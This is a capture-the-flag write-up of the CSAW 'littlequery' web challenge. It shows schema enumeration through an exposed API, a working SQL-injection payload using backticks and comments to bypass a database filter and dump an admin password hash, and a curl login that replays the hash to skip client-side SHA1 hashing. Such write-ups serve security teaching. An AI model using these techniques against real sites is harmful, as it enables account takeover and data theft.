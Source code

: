 # Challenge

I've got a new website for BIG DATA analytics!

http://littlequery.chal.csaw.io

# Walkthrough/Solution

Viewing the source of the index page gave us a hint to this challenge:

```
<!--
<div class="col-md-4">
    <h2>For Developers</h2>
    <p>Check out our <a href="/api/db_explore.php">API</a></p>
</div>
-->
```
The php file `db_explore.php` allows us to specify a few modes to view information:

```
http://littlequery.chal.csaw.io/api/db_explore.php
Must specify mode={schema|preview}

http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema
{"dbs":["littlequery"]}

http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema&db=littlequery
{"tables":["user"]}

http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema&db=littlequery&table=user
{"columns":{"uid":"int(11)","username":"varchar(128)","password":"varchar(40)"}}
```
However, it seemed that some filters are put in place to prevent us to read the contents of the database:
```
http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery&table=user
Database 'littlequery' is not allowed to be previewed.
```
After some experimentation, I found a working payload and the credentials of the user are shown:
```
http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery`/*&table=*/.`user
[{"uid":"1","username":"admin","password":"5896e92d38ee883cc09ad6f88df4934f6b074cf8"}]
```
Notice that there is a javascript that computes the input password to SHA1 before validating it at the backend:
```
http://littlequery.chal.csaw.io/js/login.js

$(".form-signin").submit(function () {
    var $password = $(this).find("input[type=password]");
    $password.val(CryptoJS.SHA1($password.val()).toString());
});
```
We can pass the credentials through `curl` so that the raw password is sent to the server directly.
```
curl -d 'username=admin&password=5896e92d38ee883cc09ad6f88df4934f6b074cf8' -X POST 'http://littlequery.chal.csaw.io/login.php' 
<rest of the headers are cut off for brevity>
```
With that, the flag is `flag{mayb3_1ts_t1m3_4_real_real_escape_string?}`

# Learning outcome
1. Bypassing filters applied on SQL statements

